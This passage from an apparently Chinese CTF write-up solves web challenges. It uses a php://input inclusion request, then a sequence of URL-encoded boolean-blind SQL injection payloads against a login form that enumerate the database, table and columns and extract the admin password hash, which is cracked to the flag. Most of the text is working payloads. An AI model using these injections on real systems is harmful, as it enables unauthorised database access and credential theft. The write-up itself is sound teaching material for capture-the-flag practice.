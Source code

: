 访问 `http://04c432a12784d2fb5ef431ec3366bc9a.yogeit.com:8080/?bdctf=foo&flag=php://input` 同时post `foo` 得到`bdctf{UCCdlsZyVe} ` 。

#### 火星撞地球

> flag{1q2w3e4r}
> 密码就是答案，格式flag{xxxx}
> http://eef6f0186546043da56bf4c7f7e6d3ca.yogeit.com:8080

获取当前数据库名member

```
name=admin%27%20and%20(ASCII(MID((database()),6,1)))=114%23&password=%27%20or%201&submit2=%E4%BC%9A%E5%91%98%E7%99%BB%E5%BD%95
```

当前数据库只有一个表

```
name=admin%27%20and%20(ASCII(MID((select%20count(table_name)%20from%20information_schema.tables%20where%20table_schema=database()),1,1)))=49%23&password=%27%20or%201&submit2=%E4%BC%9A%E5%91%98%E7%99%BB%E5%BD%95
```

当前表名为member

```
name=admin%27%20and%20(ASCII(MID((select%20table_name%20from%20information_schema.tables%20where%20table_schema=database()%20limit%200,1),7,1)))>0%23&password=%27%20or%201&submit2=%E4%BC%9A%E5%91%98%E7%99%BB%E5%BD%95
```

当前表有四条记录

```
name=admin%27%20and%20(ASCII(MID((select%20count(*)%20from%20member),1,1)))=52%23&password=%27%20or%201&submit2=%E4%BC%9A%E5%91%98%E7%99%BB%E5%BD%95
```

得到列名'id,member_user,member_password,member_name，。。。'

```
name=admin%27%20and%20(ASCII(MID((select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_schema='member'),44,1)))>44%23&password=%27%20or%201&submit2=%E4%BC%9A%E5%91%98%E7%99%BB%E5%BD%95
```

查询密码字段 burp爆破得到'5416d7cd6ef195a0f7622a9c56b55e84'，即'1q2w3e4r'。

```
name=admin%27%20and%20(ASCII(MID((select%20member_password%20from%20member%20where%20member_user='admin'),1,1)))=53%23&password=%27%20or%201&submit2=%E4%BC%9A%E5%91%98%E7%99%BB%E5%BD%95
```

最后flag为`flag{1q2w3e4r}` 

#### 密室杀人案[x]

> 格式bdctf{xxxx}
> http://417c9d88ead6809efb1d310fe6832f56.yogeit.com:8080
